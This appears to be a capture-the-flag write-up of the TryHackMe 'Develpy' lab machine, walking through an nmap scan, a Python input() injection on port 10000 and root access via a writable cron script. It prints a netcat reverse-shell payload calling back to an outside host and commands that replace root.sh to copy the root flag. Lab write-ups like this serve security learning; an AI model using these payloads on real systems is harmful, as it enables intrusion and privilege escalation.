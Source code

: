 <img width="397" alt="2024-04-30 17_00_23-TryHackMe _ Develpy — Mozilla Firefox" src="https://github.com/Th3l3mic/WriteUps/assets/167564930/b1f1c599-2414-4763-9cf0-c7faceed8793">

<h2>Develpy is a free boot2root machine created by 
<a href="https://tryhackme.com/p/stuxnet">stuxnet</a>, with medium difficulty level.</h2> 

After deploing machine  start nmap scan:

<img width="391" alt="2024-04-30 17_07_39-THM Browser-Based — Mozilla Firefox" src="https://github.com/Th3l3mic/WriteUps/assets/167564930/3fba4340-a7da-4295-9cee-f0cf74d11e78">


Nmap reveals two ports open:

<code>22 for ssh
10000 for snet-sensor-mgmt</code>

Lets try to find out what it is, and connect with that port in our browser. 
<p></p>
<br><img width="550" alt="2024-04-30 17_17_14-THM Browser-Based — Mozilla Firefox" src="https://github.com/Th3l3mic/WriteUps/assets/167564930/915fe513-0874-468f-926b-c3f990ed6bc4"></br>


It looks like some python script running  behind the scenes.
After connecting via telnet it seems that script asking us for number and do some ping requests as many times as We provide.
<p></p>

<img width="417" alt="2024-04-30 17_18_27-THM Browser-Based — Mozilla Firefox" src="https://github.com/Th3l3mic/WriteUps/assets/167564930/23126157-bb1f-4844-a121-3216f8733644">
<p></p>


There's a very helpful article made it by 
<a href="https://security.szurek.pl/en/why-you-shouldnt-use-input-function/">Kacper Szurek</a> how to abuse python input() with incjections and prepare payload with reverse shell:

<code>__import__('os').system('nc -e /bin/bash 10.10.192.242 1234')</code>

set netcat listener on port 1234 i go! We've got a shell!

Type ls to list files and We found users flag! There's also few interesting files in this directory that could potentially give us root. 
Sudo -l dont work, let's check cronjobs. It seems that every minute root.sh is excecuted with root permissions. 

We can't overwrite this file, but we can remove it and created new one with our reverse shell... just one thing, We must gives x permission to this one, set our listener and boom, We're root now!


<img width="535" alt="2024-04-30 18_29_22-THM Browser-Based — Mozilla Firefox" src="https://github.com/Th3l3mic/WriteUps/assets/167564930/7c8e5cc0-f507-4f43-8d8d-b223350ba104">

There's one simplest way to get to root flag:

<code>rm root.sh
echo 'cp /root/root.txt /home/king/root.txt' > root.sh </code>

T.
